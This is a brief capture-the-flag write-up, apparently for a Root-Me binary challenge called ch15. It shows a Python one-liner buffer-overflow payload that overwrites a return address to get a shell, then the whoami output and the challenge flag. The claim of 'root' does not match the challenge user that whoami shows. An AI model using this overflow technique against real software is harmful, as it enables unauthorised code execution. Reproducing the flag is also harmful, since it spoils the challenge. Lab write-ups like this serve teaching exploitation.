 



We got the following one-liner script for the BOF
```
(pyhon -c 'print("a" * 128 + "\x16\x85\x04\x08")'; cat) | ./ch15
```

We got root !
```
whoami
app-systeme-ch15-cracked
```

Get the flag !
```
B33r1sSoG0oD4y0urBr4iN
```
